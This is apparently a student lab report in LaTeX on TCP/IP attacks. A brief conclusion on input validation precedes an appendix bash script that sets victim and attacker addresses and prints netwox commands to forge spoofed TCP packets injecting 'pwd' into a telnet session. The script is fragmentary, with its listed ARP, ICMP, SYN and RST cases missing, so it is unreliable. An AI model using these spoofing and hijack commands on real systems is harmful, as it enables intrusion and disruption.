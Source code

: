 \documentclass[12pt, a4paper]{article}
\begin{document}
The only system that we could prove to be absolutely secure is the one that never accepts any input from a user---what is not the case in terms of Internet services.\\

It is therefore important to put a lot of thought into ``point of entries'' of our systems---weather this is a TCP socket or an input field on our website. We always should be validating the data coming to our software from the outside world and it cannot be stressed enough how important it is to use up to date components.

\vfill



\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script3
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'



\end{lstlisting}
\end{appendices}
\end{document}
